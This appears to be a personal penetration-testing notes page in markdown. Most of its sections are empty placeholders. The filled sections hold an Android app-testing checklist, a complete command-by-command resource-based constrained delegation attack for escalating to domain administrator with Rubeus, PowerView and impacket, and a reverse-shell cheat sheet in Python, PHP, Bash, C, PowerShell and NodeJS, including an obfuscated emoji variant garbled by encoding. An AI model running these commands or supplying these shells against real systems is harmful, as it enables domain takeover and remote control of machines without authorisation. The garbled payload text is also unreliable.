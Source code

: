 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    ### Checklist
* unzip -d and apktool -d both (different outputs at time)
    
* check for /assets and /res/raw (api keys, encryption keys)
    
* sensitive files and external storage (world readable  & writeable)
    
* executables & log files on external storage
    
* look at manifest (WRITE_EXTERNAL_STORAGE)., grep for "getExternal"
    
* check for installed package "vnd.android.package-archive" (they want to install something)
    
* hidden directories (.folder)
    
* api keys saved as bytearray to obfuscate
    
* identify crypto & understand it
    
* webSettings.setJavaScriptEnabled(True); means we might be able to XSS
    
* interesting options: "setAllowContent", "setAllowFileAccess", "setAllowFileAccessFromFileURILS", "setAllowUniversalAccessFromFileURLs", "setJavaScriptEnabled", "setPluginState", "setSavePassword"
    
* overwriting ssl errors :facepalm:
    
* xss might allow to call Runtime.getRuntime().exec() (CVE-2012-6636) <= Api17
                                                                           
* use Mitm Proxy (mitm.it has the cert)
                                                                           
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>*NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        <details><summary>Constrained Delegation</summary>
       
          
          
          
          First off, download two PS scripts in local machine..
          <br>


```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```

Then upload them to the target machine.

```bash
# Evil-WinRM
upload PowerView.ps1
Import-Module .\PowerView.ps1
upload Powermad.ps1
Import-Module .\Powermad.ps1
```

1. **Check User's Permission and Windows Versions**

    Check if users are allowed to create a new computer object on the domain.
    ```bash
    Get-DomainObject -Identity "dc=example,dc=com" -Domain example.com

    # -------------------------
    # Result
    ms-ds-machineaccountquota: 10
    ```

    And check if the machine is at least Windows Server 2012.
    ```bash
    Get-DomainController

    # -------------------------
    # Result
    OSVersion: Windows Server 2022 Standard
    ```

    Additionally, check if the target computer does not have the attributes **“msds-allowedtoactionbehalfofotheridentity”** set.
    ```bash
    hostname
    Get-NetComputer <hostname> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

    # ------------------
    # Result
    name msds-allowedtoactonbehalfofotheridentity
    ---- ----------------------------------------
    <HOSTNAME>   {1, 0, 4, 128...}
    ```
      
    ```bash
      .\Rubeus.exe s4u /user:HOST$ /rc4:rc4ORntml /msdsspn:CIFS/host.domain.com /impersonateuser:administrator /ptt
      
       dir \\host.domain.com\C$
    ````  

2. **Create a New Computer**

    Now you can create a new computer object.
    ```bash
    New-MachineAccount -MachineAccount TEST01 -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)
    Get-DomainComputer test01

    # ----------------------
    # Result (copy the id)
    objectsid: S-1-5-21-1677581083-3380853377-188903654-5103
    ```

    Create a new raw security descriptor.
    ```bash
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<objectid-of-a-new-computer>)"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer <hostname> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
    ```

3. **Impersonate to Get a Ticket**

    Download Rubeus.exe in local machine.

    ```bash
    wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
    ```

    Then upload it to the target machine and generate a RC4 hash.

    ```bash
    # Evil-WinRM
    upload Rubeus.exe
    .\Rubeus.exe hash /password:12345 /user:test01 /domain:example.com

    # -------------------------
    # Result (copy the rc4 hash)
    rc4_hmac: 32ED87BDB5FDC5E9CBA88547376818D4

    ```

    You can request a Kerberos ticket for a new machine account while impersonating an administrator.

    ```bash
    .\Rubeus.exe s4u /user:test01$ /rc4:<rc4-hash> /impersonateuser:administrator /msdsspn:cifs/<hostname>.example.com /ptt

    # --------------
    # Result (copy the output long hash at the last)
    ```

    Generate a ticket

    ```bash
    [IO.File]::WriteAllBytes("C:\Users\<username>\Documents\ticket.kirbi", [Convert]::FromBase64String("<new-output-hash>"))
    download ticket.kirbi
    ```

4. **Make the Ticket Usable and Use It**

    Download “ticket_converter.py”.

    ```bash
    wget https://raw.githubusercontent.com/zer1t0/ticket_converter/master/ticket_converter.py
    ```

    Destroy any tickets in local machine, and convert the ticket to Linux usable, then set the new ticket’s path.

    ```bash
    kdestroy
    python3 ticket_converter.py ticket.kirbi ticket.ccache
    export KRB5CCNAME=ticket.ccache
    ```

    We can use the ticket to get a shell.

    ```bash
    impacket-wmiexec example.com/administrator@<hostname>.example.com -no-pass -k
    ```
      
      
      
    </details>
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
#### Python
```python
  python -c 'import pty;pty.spawn("/bin/bash")';
```
    
#### Python
```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
    
#### PHP
```php
    php -r '$sock=fsockopen("10.10.10.10",9001);system("sh <&3 >&3 2>&3");'
```
    
#### Bash
```bash
    sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
 ```
    
#### PHP Emoji
```php
    php -r '$ð="1";$ð="2";$ð
="3";$ð="4";$ð="5";$ð="6";$ð="7";$ð="8";$ð="9";$ð="0";$ð¤¢=" ";$ð¤="<";$ð¤ =">";$ð±="-";$ðµ="&";$ð¤©="i";$ð¤=".";$ð¤¨="/";$ð¥°="a";$ð="b";$ð¶="i";$ð="h";$ð="c";$ð¤£="d";$ð="e";$ð="f";$ð="k";$ð="n";$ð="o";$ð="p";$ð¤="s";$ð="x";$ð = $ð. $ð¤. $ð. $ð. $ð. $ð. $ð. $ð. $ð;$ð = "10.10.10.10";$ð» = 9001;$ð = "sh". $ð¤¢. $ð±. $ð¤©. $ð¤¢. $ð¤. $ðµ. $ð
. $ð¤¢. $ð¤ . $ðµ. $ð
. $ð¤¢. $ð. $ð¤ . $ðµ. $ð
;$ð¤£ =  $ð($ð,$ð»);$ð½ = $ð. $ð. $ð. $ð;$ð½($ð);'
```
    
#### C
```c
    #include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```
    
#### Powershell
    
```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```

#### NodeJS
```javascript
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.10.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
    
    
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

